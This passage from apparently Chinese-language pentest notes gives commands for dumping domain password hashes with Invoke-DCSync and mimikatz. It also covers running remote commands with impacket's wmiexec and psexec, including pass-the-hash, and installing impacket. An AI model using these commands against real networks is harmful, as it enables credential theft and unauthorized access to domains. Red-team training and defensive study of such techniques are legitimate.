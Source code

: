 

### <font style="color:rgb(51, 51, 51);">Invoke-DCSync（在线）</font>
下载：[https://gist.github.com/monoxgas/9d238accd969550136db](https://gist.github.com/monoxgas/9d238accd969550136db)

<font style="color:rgb(51, 51, 51);">该脚本通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能，并利用dcsync直接读取ntds.dit得到域用户密码散列值。</font>

<font style="color:rgb(51, 51, 51);">命令：</font>

```bash
Import-Module .\Invoke-DCSync.ps1
Invoke-DCSync -DumpForest | ft -wrap -autosize    // 导出域内所有用户的hash
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize      // 导出域内administrator账户的hash
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751460531186-e268503a-d52a-4c9e-b53f-404b434b1aea.png)

### ntds.dit总结
上面的各种利用工具只是一部分，还有很多其它方式，多寻找文章吧

# impacket工具包的使用总结
下载地址：[https://github.com/fortra/impacket](https://github.com/fortra/impacket)

## 安装
### 压缩包安装
下载压缩包并解压

然后进入压缩包目录下的`examples`目录，使用python3运行对应的py文件即可

```bash
python3 wmiexec.py domain/user:password@ip
python3 psexec.py domain/user@ip -hashs :NTLM
```

### PIP安装
```bash
python3 -m pipx install impacket
```

安装完成后家目录下的`.local/bin/`中会有对应的impacket中py文件的软链接

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751457878813-0652c969-dd5d-43b1-904f-c1275e14e697.png)

可选：

+ 将该目录临时加入环境变量，这样就可以使用快捷命令

```bash
export PATH="$PATH:/root/.local/bin"
```
